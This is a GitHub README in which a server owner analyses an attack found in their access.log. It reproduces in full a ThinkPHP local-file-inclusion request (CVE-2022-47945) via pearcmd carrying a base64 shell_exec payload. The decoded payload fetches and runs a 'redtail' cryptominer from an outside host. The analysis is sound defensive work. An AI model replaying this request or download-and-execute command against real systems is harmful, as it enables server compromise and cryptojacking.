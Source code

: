 # redtail

While analyzing my daily access.log report, I noticed something really, really wrong.


> 26 December 2023, 04:21	202.1.200.239	GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode(\


Above is the processed access.log report. I believe there's a raw base64 string present over there, but it got trimmed by my faulty regex script (probably). So I decided to inspect the raw access.log file : 

> 202.1.200.239 - - [25/Dec/2023:21:21:16 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/+/tmp/ohhellohttpserver.php HTTP/1.1" 404 419 "-" "Custom-AsyncHttpClient"

Umm... Why is the `shell_exec` part missing here?

I decided to modify my access.log processor script. So I instructed the script that whenever a string containing "base64_decode" is being processed, please show me the raw log line.

Here's what I got :


```
202.1.200.239 - - [25/Dec/2023:21:21:16 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&amp;+config-create+/&amp;/<!--?shell_exec(base64_decode(\"bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=\"));?-->+/tmp/ohhellohttpserver.php HTTP/1.1" 404 419 "-" "Custom-AsyncHttpClient"
```
Here's the true culprit 

> shell_exec(base64_decode(\"bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=\"))

And finally, I managed to extract the base64 string.


> bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=


Let's decode this base64 string.


> mkdir -p /tmp/$(whoami); cd /tmp/$(whoami); wget http://dw.ohuyal.xyz/download/redtail.x86_64; curl -O http://dw.ohuyal.xyz/download/redtail.x86_64; mv redtail.x86_64 php.selfrep; chmod +x php.selfrep; ./php.selfrep; echo PHP.SELFREP


Umm. I don't understand it. Let's ask ChatGPT.

----

This script seems to be a set of commands executed in a Unix-like shell (like Bash). Let's break it down step by step:

1. **Create a temporary directory with the user's name:**
   ```bash
   mkdir -p /tmp/$(whoami)
   ```
   - `mkdir`: command to create a directory.
   - `-p`: option to create parent directories if they don't exist.
   - `/tmp/$(whoami)`: specifies the path of the directory. `/tmp/` is the temporary directory, and `$(whoami)` is a command substitution that gets replaced with the current username.

2. **Change to the newly created temporary directory:**
   ```bash
   cd /tmp/$(whoami)
   ```
   - `cd`: command to change the current working directory.

3. **Download a file named "redtail.x86_64" from a remote server using `wget` and `curl`:**
   ```bash
   wget http://dw.ohuyal.xyz/download/redtail.x86_64
   curl -O http://dw.ohuyal.xyz/download/redtail.x86_64
   ```
   - `wget`: command to download files from the internet.
   - `curl -O`: command to download a file and save it with the same name as the remote file.

4. **Rename the downloaded file to "php.selfrep":**
   ```bash
   mv redtail.x86_64 php.selfrep
   ```
   - `mv`: command to rename or move files.

5. **Give execute permissions to the renamed file:**
   ```bash
   chmod +x php.selfrep
   ```
   - `chmod +x`: command to make the file executable.

6. **Execute the renamed file:**
   ```bash
   ./php.selfrep
   ```
   - `./`: specifies the current directory.
   - `php.selfrep`: the executable file that was downloaded and renamed.

7. **Print a message "PHP.SELFREP":**
   ```bash
   echo PHP.SELFREP
   ```
   - `echo`: command to print text to the console.

----

Before that URL is unaccessible, I archived the `redtail.x86_64` executable here for research purposes.

### So?

I wish some security researchers could find out what these executables actually do. 

Oh, I also managed to find another malware in the wild, similar to this : [jaws.exploit](https://github.com/altilunium/jaws.exploit). 

All I have to do to get this one is by setting up a honeypot server with a publicly accessible IP.

---

### Epilogue

VirusTotal analysis of this `redtail.x86_64` file : [miner.bldbd/xmrig](https://www.virustotal.com/gui/file/819f53b96bb5b8869531d3880b53cb5f354b2a2f5171e783bad495e1ac2cbbf0/detection)

### Epilogue 2

It's not my faulty regex script. In fact, I just fail to properly render the `access.log` file by using HTML. Here's the actual access.log line, shown by using simple grep.

> grep "shell_exec" access.log

```
202.1.200.239 - - [25/Dec/2023:21:21:16 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode(\"bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=\"));?>+/tmp/ohhellohttpserver.php HTTP/1.1" 404 419 "-" "Custom-AsyncHttpClient"
```

![image](https://github.com/altilunium/redtail/assets/70379302/f6b99e3e-3e12-48b6-bbda-38e68937a883)

### Epilogue 3 : 

[CVE-2022-47945](https://nvd.nist.gov/vuln/detail/CVE-2022-47945)

> ThinkPHP Framework before 6.0.14 allows local file inclusion via the lang parameter when the language pack feature is enabled (lang_switch_on=true). An unauthenticated and remote attacker can exploit this to execute arbitrary operating system commands, as demonstrated by including pearcmd.php.
